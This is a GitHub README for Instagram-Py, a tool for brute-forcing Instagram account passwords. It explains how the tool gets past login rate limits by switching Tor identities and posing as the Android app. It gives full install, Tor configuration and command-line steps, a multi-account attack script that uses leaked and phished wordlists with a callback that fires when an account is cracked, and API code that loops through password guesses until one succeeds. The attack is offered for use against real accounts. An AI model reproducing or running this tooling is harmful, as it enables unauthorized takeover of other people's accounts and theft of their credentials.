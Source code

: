.. image:: .img/poster.png



.. raw:: html
 
 <blockquote>:briefcase: The Official Instagram-Py repo. A professional tool to :8ball: brute force instagram :camera_flash: accounts with less resource :gift: as possible , Written in Python :snake: and made with :heart: -- Antony Jr.</blockquote>
    
 
 <h1 align="center" > Instagram-Py </h1>
 
 <p align=center>
 <a href="https://github.com/antony-jr/instagram-py/issues">
 <img src="https://img.shields.io/github/issues/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/antony-jr/instagram-py/network">
 <img src="https://img.shields.io/github/forks/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/antony-jr/instagram-py/stargazers">
 <img src="https://img.shields.io/github/stars/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a href="https://github.com/antony-jr/instagram-py/blob/master/LICENSE">
 <img src="https://img.shields.io/github/license/antony-jr/instagram-py.svg?style=flat-square" / >
 </a>
 
 <a class="badge-align" href="https://www.codacy.com/app/antony-jr/instagram-py?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=antony-jr/instagram-py&amp;utm_campaign=Badge_Grade"><img src="https://api.codacy.com/project/badge/Grade/352d5096b26e46faaa6b7434ad5afed6"/></a>
 
 </p>

  
  
| This project was started as a **POC** and then evolved into something. I first started this project when a lot
| of people started asking about brute forcing instagram and so I started working on a **Proof-Of-Concept** for
| brute forcing instagram without any password (try) limiting. Another reason to start working on this project was
| that there was no good tool to do this job , Yep! even now if you search through github you cannot find a tool
| which is good as instagram-py. Since a few people liked this tool , I decided to give it a **LTS**.
| Still there exists some old versions of instagram-py all-over github but **this is the official repo**.
| You can also use **different versions** of **instagram-py** through **pip**. 


------
 How?
------

| We use , **tor** to change our ip once blocked for many tries and continue attack.
| Since the official api is not a hacker wants, So we use the **InstagramAPK signature** to stay **anonymous!**
| And we also **save** the **progress** so that even in network interruption we can avoid breaking the computer!


-------
 What?
-------

| **Instagram-Py** is a slick python script to perform  **brute force** attack against **Instagram** ,   
| this script can **bypass** login limiting on wrong passwords ,  so basically it can test **infinite number of passwords**.
| Instagram-Py is **proved** and can test **over 6M** passwords on a single instagram account with **less resource** as possible
| This script mimics the activities of the official **instagram android app** and sends request over **tor** so you are secure ,
| but if your **tor** installation is **misconfigured** then the blame is on you.


------------
 Features
------------

* Instagram-Py Scripting

  Craft your own python script which will embed into Instagram-Py for Maximum Customization of your
  brute force attack , example: What if you want a message sent to your phone when an account is hacked?

* Resumes Attacks when the same wordlist is used on the same Username
* Dumps successfully cracked accounts.
* Maximum Customization! ( This includes multiple attack vectors! )
* Fast and Clean Code , no ugly selenum drivers! ( Pure Requests )
* Elegant Tor Identity Change with Stem ( Tor's Official Library for Python )


**Depends on**: python3 , tor ,  requests , requests[socks] , stem

==============
 Installation
==============
---------------------------------
 Upgrading Instagram-Py with pip
---------------------------------

::

 $ sudo pip3 install instagram-py --upgrade


-------------------------------
 using pip to get Instagram-py
-------------------------------

**Make sure you have got the latest version of pip(>= 9.0 and python(>= 3.6)**

::

 $ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip
 $ sudo pip3 install requests --upgrade
 $ sudo pip3 install requests[socks]
 $ sudo pip3 install stem
 $ sudo pip3 install instagram-py
 $ instagram-py # installed successfully
 $ # Configuration is Super Important so Lets Create One
 $ instagram-py --create-configuration # follow the steps... 

--------------------------------
    Configuring Instagram-Py
--------------------------------

**As of v2.0.0 Configuration is Simply done by Passing an Argument to Instagram-Py**

::

 $ instagram-py --create-configuration
 $      # OR
 $ instagram-py -cc



**Or if you just want the default settings without the annoying questions then**

::

 $ instagram-py --create-configuration --default-configuration
 $      # OR
 $ instagram-py -cc -dc



--------------------------------------------------
    Configuring Tor server to open control port
--------------------------------------------------

open your **tor configuration** file usually located at **/etc/tor/torrc**


::
 
 $ sudo vim /etc/tor/torrc # open it with your text editor
 

**search** for the file for this **specific section**

::

 ## The port on which Tor will listen for local connections from Tor
 ## controller applications, as documented in control-spec.txt.
 #ControlPort 9051
 
**uncomment** 'ControlPort' by deleting the **#** before 'ControlPort' , **now save the file and restart your tor server**

**now you are ready to crack any instagram account , make sure your tor configuration matched ~/instapy-config.json** 

=============
    Usage
=============

**Finally** , now you can use instagram-py!

**Instagram-Py Scripting lets you run Custom Python Scripts Inside Instagram-Py!**

**Never Run Instagram-Py with Multiple Instance! , Use Instagram-Py Scripting Instead!**


::

 $ instagram-py -u your_account_username -pl path_to_password_list


**Note**: Without the **-c** optional argument , instagram-py **will not continue the attack**

::

 usage: instagram-py [-h] [--username USERNAME] [--password-list PASSWORD_LIST]
                     [--script SCRIPT] [--inspect-username INSPECT_USERNAME]
                     [--create-configuration] [--default-configuration]
                     [--countinue] [--verbose]
 
 optional arguments:
   -h, --help            show this help message and exit
   --username USERNAME, -u USERNAME
                         username for Instagram account
   --password-list PASSWORD_LIST, -pl PASSWORD_LIST
                         password list file to try with the given username.
   --script SCRIPT, -s SCRIPT
                         Instagram-Py Attack Script.
   --inspect-username INSPECT_USERNAME, -i INSPECT_USERNAME
                         Username to inspect in the instagram-py dump.
   --create-configuration, -cc
                         Create a Configuration file for Instagram-Py with
                         ease.
   --default-configuration, -dc
                         noconfirm for Instagram-Py Configuration Creator!
   --countinue, -c       Countinue the previous attack if found.
   --verbose, -v         Activate Verbose mode. ( Verbose level )

 example: instagram-py -c -vvv -u instatestgod__ -pl rockyou.txt

 Report bug, suggestions and new features at https://github.com/antony-jr/instagram-py



========================
 Instagram-Py Scripting
========================

Instagram-Py now lets you run your custom scripts inside of it for maximum customization of your attacks.
This Scripts are simple Python Scripts ( You Can just do anything that is possible with python )

**Witness the power of Instagram-Py Scripting**

::

 #!/usr/bin/instagram-py -s
 # Only Supports Python 3

 import os

 def hacked_an_account(username , password):
    # Use Twilio API to Make a Message to our phone MayBe?
    print("Account Cracked!")
    return True


 print("Initiating Multi Username Attack Script...")

 global_callback = hacked_an_account
 global_password_list = "{}/.exploits/facebook-phished.txt".format(os.path.expanduser('~'))

 usernames = [ # Reserved Variable
   {
   "id" : "instatestgod__",
   "password_list" : "/home/antonyjr/Developer/.exploits/rockyou.txt" , # full path
   "countinue" : True, # Optional
   "verbose" : 0 # Optional
    },
   # If you want to simultaniously attack the same account with different wordlist
   # Apparently Saving does not work here if two wordlist are used on a single user!
   # could be later fixed anyways...
   {
   "id" : "instatestgod__",
   # global password list will cover us if password list is not mentioned!
   "countinue" : False, # Optional
   "verbose" : 3 # Optional
   }
   # ,
   # {
   # "id" : "even_more_users",
   # "password_list" : "different_passwords.lst",
   # }
 ]



**You Can Always View the Cracked Passwords Using this command!**

::

 $ instagram-py -i instatestgod__
 $ # Displays record if it is cracked in the past!

===========================
 Using Instagram-Py as API
===========================

**Instagram-Py supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!**

For some reason you wish not to use my software then you can use my software as a module and embed into your own
software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

**Follow the same installation method mentioned above to install Instagram-Py API.**

This is a simple script to conduct a bructe force attack using instagram-py as a API.

::

 #!/usr/bin/env python3
 '''
   This is the same thing that is in the __init__ file of the command-line
   tool.
 '''
 from InstagramPy.InstagramPyCLI import InstagramPyCLI
 from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH
 from InstagramPy.InstagramPyInstance import InstagramPyInstance
 from datetime import datetime
 
 username = "TARGET ACCOUNT USERNAME"
 password = "PASSWORD LIST PATH"

 appInfo = {
    "version"     : "0.0.1",
    "name"        : "Instagram-Py Clone",
    "description" : "Some Module to crack instagram!",
    "author"      : "YourName",
    "company"     : "YourCompany",
    "year"        : "2017",
    "example"     : ""
 }

 cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)
 
 '''
 # USE THIS IF YOU WANT
 cli.PrintHeader()
 cli.PrintDatetime()
 '''
 session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli)
 session.ReadSaveFile(True) # True to countinue attack if found save file.
 '''
 # USE THIS IF YOU WANT
 cli.PrintMagicCookie(session.magic_cookie)
 '''

 '''
  Defining @param cli = None will make Instagram-Py run silently so you
  can you use your own interface if you like.
  or if you want to use the official interface then declare like this

  instagrampy = InstagramPyInstance(cli = cli , session = session)

 '''

 instagrampy = InstagramPyInstance(cli = None ,session = session)
 while not instagrampy.PasswordFound():
        print('Trying... '+session.CurrentPassword())
        instagrampy.TryPassword()

 if instagrampy.PasswordFound():
        print('Password Found: '+session.CurrentPassword())

 exit(0) 
 


=========
Support
=========

If you think that this project is **cool** then you can give it a :star: or :fork_and_knife: it if you want to improve it with me. I really :heart: stars though!   

.. raw:: html

 <p align="center">
     <a href="https://liberapay.com/antonyjr/donate">
        <img src="https://liberapay.com/assets/widgets/donate.svg">
     </a>
 </p>


If you want to do something that stands out then you can click the **donate** button at the top to make a monthly donation , So   
I will make sure that I stay healthy and keep on to do my work. :briefcase: Supporting me means supporting all of my projects , So   
you are like **Tony Stark** :heart: who backs **Spider-Man**! Thank you for your extra care! :dog:   

You can also tweet about me on twitter , get connected with me here -> https://twitter.com/antonyjr0

Thank You! :smiley_cat:



=============
   License
=============

The MIT License,

Copyright (C) 2018 The Future Shell , Antony Jr.
